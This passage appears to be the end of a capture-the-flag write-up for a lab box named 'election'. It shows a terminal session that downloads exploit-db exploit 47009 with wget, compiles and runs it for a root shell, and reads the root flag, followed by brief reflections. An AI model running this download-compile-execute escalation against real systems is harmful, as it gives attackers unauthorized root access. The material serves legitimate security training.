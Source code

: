 ```
love@election:~$ wget https://www.exploit-db.com/download/47009 -O 47009.c
--2020-07-25 16:04:16--  https://www.exploit-db.com/download/47009
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.13
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.13|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 619 [application/txt]
Saving to: ‘47009.c’

47009.c                              100%[===================================================================>]     619  --.-KB/s    in 0s      

2020-07-25 16:04:16 (128 MB/s) - ‘47009.c’ saved [619/619]

love@election:~$ gcc 47009.c -o ezRoot.o; ./ezRoot.o
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(love)
opening root shell
# whoami
root
# cat /root/root.txt
5238feefc4ffe09645d97e9ee49bc3a6
```

Overall a quite enjoyable box, and one I certainly had fun doing (the flag means love-root if anyone's interested). Not too many rabbit holes or anything like that, although I do wonder if there are other ways of completing it, given the remaining mysteries of the election's admin panel.